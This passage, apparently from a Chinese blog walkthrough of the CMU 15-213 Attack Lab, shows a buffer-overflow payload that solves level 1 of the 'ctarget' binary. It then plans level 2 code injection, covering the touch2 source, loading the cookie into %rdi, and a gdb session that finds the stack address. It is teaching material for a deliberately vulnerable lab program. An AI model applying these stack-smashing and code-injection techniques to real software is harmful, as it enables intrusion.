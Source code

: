 执行`ctarget`程序验证结果，其中`-i`指定字符串所在文件，`-q`必选参数

```shell
# ./ctarget -q -i answer1
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### 第二关

与第一关不同， 这关还需要在输入字符串中注入攻击代码。首先查看`touch2`代码：

```C
void touch2(unsigned val) {
	vlevel = 2;
	if(val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
}
```

可以看出，我们需要在跳转到`touch2`的时候将`cookie`的值作为参数传递。思路如下：

* 将返回地址改写为栈中的注入代码的地址。栈的地址可以用`gdb`跑一把程序确认

* 在注入代码中，将`cookie`值传递到`%rdi`。因为`x86-64`汇编使用`%rdi`作为第一个参数
* 确定`touch2`的起始地址并跳转。可利用`push`和`ret`指令实现跳转

首先确定栈的地址，在`0x4017af callq 401a40 <Gets>`处打断点，查看`%rsp`值

```
# gdb ctarget
(gdb) set args -q -i answer1
(gdb) b *0x4017af
Breakpoint 1 at 0x4017af: file buf.c, line 14.
(gdb) r
Starting program: /home/pc/attackLab/target1/ctarget -q -i answer1
Cookie: 0x59b997fa
Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) p $rsp
$1 = (void *) 0x5561dc78
```

得到栈的地址为`0x5561dc78`, 这正是我们注入代码所在的位置。
